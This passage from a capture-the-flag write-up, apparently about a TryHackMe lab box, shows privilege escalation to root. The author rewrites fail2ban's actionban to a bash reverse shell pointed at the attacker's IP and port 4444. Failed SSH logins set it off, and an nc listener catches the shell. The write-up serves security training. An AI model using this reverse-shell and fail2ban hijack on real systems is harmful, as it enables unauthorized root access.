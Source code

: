 I copy the modified file back to its original location and replace the default one. Verify that my modification has been applied:

```
fred@biteme:/home/fred$ cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
fred@biteme:/home/fred$ cat /etc/fail2ban/action.d/iptables-multiport.conf  | grep "actionban"
# Notes.:  command executed once before each actionban command
# Option:  actionban
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = bash -c 'bash -i >& /dev/tcp/10.9.63.75/4444 0>&1'
```

The final steps are:

- **restart** the **fail2ban** service with `sudo` to apply the modified file into the host.
- Start a listener on local machine
- Perform **ssh** connection multiple times to the target but with fail condition (incorrect or blank password)

```
┌──(kali㉿kali)-[~]
└─$ ssh root@biteme.thm
root@biteme.thm's password:
Permission denied, please try again.
root@biteme.thm's password:
Permission denied, please try again.
root@biteme.thm's password:
root@biteme.thm: Permission denied (publickey,password).
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.0.74] 34748
bash: cannot set terminal process group (2193): Inappropriate ioctl for device
bash: no job control in this shell
root@biteme:/# cd /root
cd /root
root@biteme:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 Sep 23  2021 root.txt
root@biteme:/root# cat root.txt
cat root.txt
THM{REDACTED}
```
